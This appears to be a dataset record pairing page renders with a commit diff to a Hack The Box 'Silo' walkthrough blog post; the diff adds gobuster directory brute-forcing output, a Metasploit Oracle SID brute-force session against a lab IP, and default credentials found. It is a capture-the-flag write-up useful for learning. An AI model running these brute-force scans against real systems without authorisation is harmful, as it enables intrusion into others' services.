

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-11-07-Hackthebox-Silo-Walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 1845 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
WIP silo-walkthrough

```diff
--- a/_posts/2019-11-07-Hackthebox-Silo-Walkthrough.md
+++ b/_posts/2019-11-07-Hackthebox-Silo-Walkthrough.md
@@ -66,7 +66,24 @@ Nmap done: 1 IP address (1 host up) scanned in 3066.66 seconds
 
 Gobuster HTTP:
 {% highlight shell %}
-
+root@kali:~# gobuster dir -u http://10.10.10.82/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .html,.aspx -s '200,204,301,302,403'
+===============================================================
+Gobuster v3.0.1
+by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
+===============================================================
+[+] Url:            http://10.10.10.82/
+[+] Threads:        10
+[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
+[+] Status codes:   200,204,301,302,403
+[+] User Agent:     gobuster/3.0.1
+[+] Extensions:     html,aspx
+[+] Timeout:        10s
+===============================================================
+2019/11/06 16:54:45 Starting gobuster
+===============================================================
+===============================================================
+2019/11/06 18:05:09 Finished
+===============================================================
 {% endhighlight %}
 
 ### 2. Getting User
@@ -76,10 +93,34 @@ Then, try to take a look at Oracle TNS listener.<br>
 At first, try to get SIDs.<br>
 <em>The Oracle System ID (SID) is used to uniquely identify a particular database on a system. For this reason, one cannot have more than one database with the same SID on a computer system.</em>
 {% highlight shell %}
+msf5 auxiliary(admin/oracle/sid_brute) > use auxiliary/admin/oracle/sid_brute
+msf5 auxiliary(admin/oracle/sid_brute) > set rhost 10.10.10.82
+rhost => 10.10.10.82
+msf5 auxiliary(admin/oracle/sid_brute) > show options
 
+Module options (auxiliary/admin/oracle/sid_brute):
+
+   Name     Current Setting                                         Required  Description
+   ----     ---------------                                         --------  -----------
+   RHOSTS   10.10.10.82                                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
+   RPORT    1521                                                    yes       The target port (TCP)
+   SIDFILE  /usr/share/metasploit-framework/data/wordlists/sid.txt  no        The file that contains a list of sids.
+   SLEEP    1                                                       no        Sleep() amount between each request.
+
+msf5 auxiliary(admin/oracle/sid_brute) > run
+[*] Running module against 10.10.10.82
+
+[*] 10.10.10.82:1521 - Starting brute force on 10.10.10.82, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt...
+[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'XE'
+[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'PLSExtProc'
+[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'CLRExtProc'
+[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID ''
+[*] 10.10.10.82:1521 - Done with brute force...
+[*] Auxiliary module execution completed
 {% endhighlight %}
 
 Next, brute force the valid credentials.<br>
+To set up the Oracle client on Kali, we can read <a hreh="https://github.com/rapid7/metasploit-framework/wiki/How-to-get-Oracle-Support-working-with-Kali-Linux">this page</a>
 We can find following username/password.
 {% highlight shell %}
 scott:tiger
```
